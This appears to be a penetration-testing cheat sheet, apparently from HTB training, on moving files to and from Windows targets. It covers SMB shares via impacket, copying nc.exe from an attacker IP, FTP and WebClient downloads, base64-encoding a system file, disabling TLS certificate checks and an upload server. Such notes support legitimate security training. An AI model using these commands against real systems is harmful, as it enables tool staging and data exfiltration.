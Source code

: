  ####  Work around SSL / TLS issue
 
```powershell
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

##  <span style='color:lightgreen'> SMB DOWNLOADS </span>
-----
- Unauthenticated
```css
sudo impacket-smbserver share -smb2support /tmp/smbshare
/opt/impacket/examples/smbserver.py  -smb2support CompData Password-attack/smb/
```

```shell
copy \\192.168.220.133\share\nc.exe
```
- Authenticated
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```shell
net use n: \\192.168.220.133\share /user:test test
```

```powershell
New-PSDrive -Name "S" -Root "\\Server01\Scripts" -Persist -PSProvider "FileSystem" -Credential $cred
```


##  <span style='color:lightgreen'> FTP DOWNLOADS </span>
----
- pyftpdlib
 start anonymous session
```shell
sudo python3 -m pyftpdlib --port 21
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```


##  <span style='color:lightgreen'> Powershell encodings </span>
----
 - Base64 encode
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```


##  <span style='color:lightgreen'> Powershell Web Uploads </span>
-----
- uploadserver
```python
python3 -m uploadserver
```
